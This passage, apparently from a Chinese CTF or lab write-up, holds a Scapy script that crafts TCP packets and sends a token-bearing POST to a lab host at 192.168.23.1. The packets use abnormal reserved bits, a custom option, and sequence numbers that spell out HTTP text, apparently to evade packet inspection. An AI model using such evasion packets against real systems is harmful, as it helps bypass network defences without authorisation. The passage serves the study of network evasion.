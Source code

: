 ```python

    SEQ_BYTE = bytes_to_long(b'GET ') - 1
    ACK_BYTE = bytes_to_long(b'/ HT') - 1

    sport = getAvailablePort()
    print(sport)

    syn = TCP(sport=sport, dport=dst_port, flags='S', seq=SEQ_BYTE, ack=ACK_BYTE, reserved=2)
    syn_ack = sr1(ip / syn / "GET / HTTP")
    my_ack = syn_ack.seq + 1
    my_seq = syn.seq + 1
    push = TCP(sport=sport, dport=dst_port, flags='AP', seq=my_seq, ack=my_ack, reserved=2,
               options=[(255, b"GET / HTTP")])
    response = sr1(ip / push / payload)
    # 关闭连接
    fin = TCP(sport=sport, dport=dst_port, flags='FA', seq=my_seq + 1, ack=my_ack + 1)
    send(ip / fin / "GET / HTTP")
    return response


if __name__ == "__main__":
    dst_ip = "192.168.23.1"
    dst_port = 18082
    payload = (
        "POST / HTTP/1.1\r\n"
        "Host: 123\r\n"
        "Content-Length: 104\r\n"
        "Content-Type: application/x-www-form-urlencoded\r\n"
        "\r\n"
        f"{token}\r\n"
        "\r\n")
    response = send_custom_packet(dst_ip, dst_port, payload)
    print(response)
    if response and Raw in response:
        print(response[Raw].load)
    else:
        print("No response received.")
```


虽然依旧收不到`response`，但是问题不大，因为抓包抓到了：